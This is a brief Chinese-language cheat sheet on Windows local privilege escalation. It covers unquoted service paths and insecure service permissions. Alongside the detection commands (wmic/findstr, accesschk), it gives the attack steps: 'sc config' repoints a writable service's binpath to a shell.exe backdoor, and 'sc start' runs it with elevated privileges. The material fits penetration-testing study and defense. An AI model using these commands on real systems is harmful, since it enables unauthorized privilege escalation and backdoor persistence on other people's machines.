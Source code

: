 ## **不带引号服务路径**
检测
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```
“C:\Program Files(x86)\Acunetix\wvssupervisor.exe”
不带引号
C:\Program Files(x86)\Acunetix\wvssupervisor.exe
如果存在C:\Program.exe是执行文件，会直接先执行这个。

## **不安全的服务权限**
条件：已经有本地账户权限

有些服务权限高 且 可以修改服务运行程序的路径。
可以用官方的工具accesschk.exe检测，同时可以修改为后门程序路径。
<https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk>
```
检测
accesschk.exe /accepteula

accesschk.exe -uwcqv "Administrators" *

看到napagent服务是SERUICE_ALL_ACCESS权限
修改执行路径
sc config "napagent" binpath="C:Users\Public\Downloads\shell.exe"

重启服务，或受害者启动，高权限执行后门上线
sc start napagent
```